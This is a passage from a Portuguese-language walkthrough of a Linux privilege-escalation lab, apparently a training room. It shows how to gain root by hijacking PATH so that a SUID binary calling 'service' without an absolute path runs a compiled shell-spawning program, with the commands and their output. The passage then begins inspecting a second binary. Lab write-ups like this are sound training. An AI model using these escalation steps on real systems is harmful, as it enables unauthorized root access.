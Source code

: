 Note que o programa está executando o comando `service apache2 start`, porém não especifica o caminho absoluto do programa `service`.

Sabendo disso vamos utilizar o programa `/home/user/tools/suid/service.c` que gera uma shell bash, mas antes disso temos que compilar o programa:

```bash
user@debian:~$ gcc -o service /home/user/tools/suid/service.c
user@debian:~$ ls
myvpn.ovpn  overwrite.sh  service  tools
```

<div class="page"/>

Agora temos que adicinar o diretório atual ao `PATH` e executar o programa `/usr/local/bin/suid-env` novamente:

```bash
user@debian:~$ export PATH="$PATH:/home/user"
user@debian:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin:.:/home/user
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1659) already running
. ok
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# whoami
root
```

E para finalizar vamos cliclar no botão `Complete`.

---

## **<a id="14"> • SUID / SGID Executables - Abusing Shell Features (#1).</a>**

Tambem temos o `/usr/local/bin/suid-env2` que é idêntico a /`usr/local/bin/suid-env`, porém ele usa o caminho absoluto do executável do serviço (/usr/sbin/service) para iniciar o servidor web apache2:

```bash
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
